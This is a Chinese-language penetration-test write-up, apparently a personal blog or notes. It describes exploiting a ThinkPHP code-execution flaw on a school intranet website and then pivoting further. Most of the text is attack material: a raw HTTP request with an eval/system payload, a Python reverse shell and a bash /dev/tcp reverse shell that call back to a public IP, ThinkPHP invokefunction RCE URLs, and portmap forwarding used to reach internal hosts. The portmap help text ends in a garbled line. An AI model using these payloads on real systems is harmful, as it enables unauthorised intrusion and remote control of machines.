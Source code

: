 # 记一次简单的渗透
> 目标：学校内网中某存在tp代码执行漏洞的网站

## 大致过程

获取网站的相关信息 `whatweb -v http://123.123.123.123`
发现是tp网站

测试老版本的命令执行，这里用了一个python弹shell的方法
```
POST /index.php/module/action/paraml/${@eval(system($_POST[id]))} HTTP/1.1
Host: 123.123.123.123
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://123.123.123.123/index.php/Public/login
Content-Length: 251
Cookie: PHPSESSID=5luqtvskv0hs76hvl7irk7qq25; uid=0h4BjFysIcDBKBepA2zJAg==
Connection: close

id=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('公网IP',公网端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" >>/tmp/ccKnfdf.c
```
```
附上新的命令执行payload
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

附上bash直接反弹shell，一开始没重定向到文件所以失败了，然后我换了python的脚本才发现是重定向的问题
bash -i >& /dev/tcp/公网IP/公网端口 0>&1
```

然后可以利用这个做跳板，进而破解内网主机的一些端口

编译portmap（或者将其再类似系统上编译好了直接传到目标机器上也可以）
将内网的某主机端口抓发到公网（其实我这个环境没必要，但是练练技术）

```
portmap --help
bkbll的套接字数据传输工具（bkbll@cnhonker.net）
用法：./portmap -m method [-h1 host1] -p1 port1 [-h2 host2] -p2 port2 [-v] [-log filename]
 -v：version
 -h1：host1 
 -h2：host2 
 -p1：port1 
 -p2：port2 
 -log：记录数据
 -m：此工具的操作方法
    1：侦听PORT1并连接到HOST2：PORT2 
    2：侦听PORT1和PORT2 #本地端口转发
    3：连接到HOST1：PORT1和HOST2：PORT2  #将内网中的
让我退出......全部超过
```
目标机上的抓发命令